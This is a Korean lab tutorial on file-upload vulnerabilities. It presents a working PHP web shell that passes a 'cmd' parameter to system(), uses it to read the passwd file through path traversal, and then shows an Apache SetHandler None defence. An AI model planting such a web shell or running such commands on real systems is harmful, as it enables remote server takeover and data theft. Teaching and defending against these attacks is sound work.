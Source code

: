 # 파일 업로드 모의해킹
파일 업로드 모의해킹은 웹 사이트에서 파일을 업로드할 때, 업로드 된 파일이 악성 코드를 포함하고 있는지 확인하지 않아 발생하는 보안 취약점입니다.

## 공격 실습

![file_upload](https://github.com/Tree1st/HK/blob/master/webH/image/fileUpload/file_upload.png)

공격에 사용될 웹쉘 파일을 업로드 합니다. 웹쉘(Web Shell)은 웹을 통해 원격에서 서버에 접근하여 명령어를 실행할 수 있는 프로그램입니다. 웹쉘은 서버의 취약점으로부터 공격자가 접근한 후, 웹상에서 명령어를 실행하고 서버를 제어할 수 있습니다.

다음은 웹쉘 코드(webshell.php)의 예시 입니다.
```php
<?php

echo 'Enter a Command:<br>';
echo '<form action="">';
echo '<input type=text name="cmd">';
echo '<input type="submit">';
echo '</form>';					

/*
	echo 부분은 명령어를 입력받을 수 있는 폼을 제공
    공격자가 입력 폼에 명령어를 입력하면 cmd 파라미터를 통해 전달된다.
*/

if(isset($_GET['cmd'])){
	system($_GET['cmd']);
}
//system 함수를 통해 전달된 명령어가 실행된다.

?>
```

업로드된 파일의 다운로드 주소를 살펴보면 `http://192.168.219.180/upfiledata/webshell.php` 이와같이 설정되어있음을 알 수 있습니다.    
이 주소로 이동하면 다음과같이 명령어를 실행시킬 수 있는 웹쉘이 실행됨을 볼 수 있습니다.
<br><br>

![file_upload_webshell](https://github.com/Tree1st/HK/blob/master/webH/image/fileUpload/file_upload_webshell.png)

위와같이 입력란에 `cat ../../../../../etc/passwd` 를 입력하여 passwd 파일을 탈취할 수 있습니다.

## 방어 실습

![fileupload_apacheconf](https://github.com/MLTree2/HK/blob/master/webH/image/fileUpload/file_upload_apache2conf.png)

Apache 설정파일인 apache2.conf 파일에서 파일이 업로드되는 경로의 Directory 설정에 `FilesMatch "\.*$"` 를 이용하여 모든 파일에 대하여 `SetHandler None`을 설정합니다. <br>
`SetHandler None`을 설정하면 웹 서버는 어떤 핸들러도 사용하지 않습니다.
즉, 요청된 파일을 그대로 반환하거나, 디렉토리 목록을 표시하지 않고 요청된 파일을 클라이언트에게 제공하여 파일이 웹서버에서 실행되지 않도록 합니다. 

![fileupload_a_result](https://github.com/MLTree2/HK/blob/master/webH/image/fileUpload/file_upload_a_result.png)

`SetHandler None`설정을 적용한 후 기존의 FileUpload 공격을 수행하면 다음과같이 웹쉘 파일이 실행되지 않고 그대로 내용이 나오는것을 확인 할 수 있습니다. 
